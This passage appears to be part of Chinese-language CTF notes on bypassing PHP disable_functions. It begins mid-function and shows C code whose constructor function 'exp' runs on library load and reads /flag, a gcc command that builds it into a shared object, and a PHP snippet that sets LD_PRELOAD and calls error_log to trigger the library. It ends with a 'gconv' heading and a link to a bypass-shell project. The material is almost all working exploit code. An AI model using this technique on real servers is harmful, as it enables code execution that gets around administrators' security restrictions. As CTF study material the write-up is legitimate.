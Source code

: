 ```c
    if ((fp=fopen(fname,"r"))==NULL){
        printf("打开文件%s错误\n",fname);
        return NULL;
    }
    //将文件指针移到末尾
    fseek(fp,0,SEEK_END);
    filesize = ftell(fp);//通过ftell函数获得指针到文件头的偏移字节数。
    
    str=(char *)malloc(filesize);//动态分配str内存
//    str=malloc(filesize);//动态分配str内存
    str[0]=0;//字符串置空
//    memset(str,filesize*sizeof(char),0);//清空数组,字符串置空第二种用法
    rewind(fp);
    
    while((fgets(txt,1000,fp))!=NULL){
        strcat(str,txt);
    }
    fclose(fp);
    return str;
}

__attribute__ ((__constructor__)) void exp (void){
    char *p;
    char *fname="/flag"; //文件名
    p=getfileall(fname);
    if (p!=NULL) puts(p);
}
```
### 编译so文件
```bash
gcc -shared -fPIC test.c -o test.so
```
### 示例
```php
<?php 
  putenv("LD_PRELOAD=/tmp/exp1.so");
	error_log("",1,"","");
?>
```
# gconv

# github项目
[https://github.com/l3m0n/Bypass_Disable_functions_Shell](https://github.com/l3m0n/Bypass_Disable_functions_Shell)
